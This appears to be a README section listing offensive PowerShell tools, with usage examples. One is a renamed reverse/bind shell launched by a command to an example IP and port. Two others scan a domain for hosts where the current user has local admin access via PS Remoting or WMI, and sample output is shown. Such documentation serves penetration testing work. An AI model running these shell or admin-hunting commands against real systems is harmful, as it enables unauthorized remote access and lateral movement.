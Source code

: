 ## Interesting Tools

### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
